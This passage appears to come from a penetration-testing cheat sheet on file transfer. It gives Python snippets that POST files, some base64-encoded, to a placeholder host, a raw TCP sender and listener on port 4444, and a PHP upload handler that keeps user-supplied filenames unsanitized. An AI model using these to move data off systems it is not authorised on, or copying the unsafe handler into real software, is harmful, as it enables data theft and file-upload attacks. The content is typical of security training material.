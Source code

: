 ### Upload File
```python
# HTTP POST upload
import requests
files = {'file': open('file.txt', 'rb')}
r = requests.post('http://IP/upload', files=files)

# Base64 encoded upload
import base64
import requests
with open('file.txt', 'rb') as f:
    data = base64.b64encode(f.read())
requests.post('http://IP/upload', data={'file': data})
```

### TCP File Transfer
```python
# Server (receiver)
import socket
s = socket.socket()
s.bind(('0.0.0.0', 4444))
s.listen(1)
conn, addr = s.accept()
with open('received_file', 'wb') as f:
    while True:
        data = conn.recv(1024)
        if not data: break
        f.write(data)
conn.close()

# Client (sender)
import socket
s = socket.socket()
s.connect(('TARGET_IP', 4444))
with open('file_to_send', 'rb') as f:
    s.send(f.read())
s.close()
```

---

## 🐘 PHP

### HTTP Server
```php
// Start server
// php -S 0.0.0.0:8000

// Or create upload handler (upload.php)
<?php
if(isset($_FILES['file'])){
    move_uploaded_file($_FILES['file']['tmp_name'], 
                      'uploads/' . $_FILES['file']['name']);
    echo "File uploaded";
}
?>
```
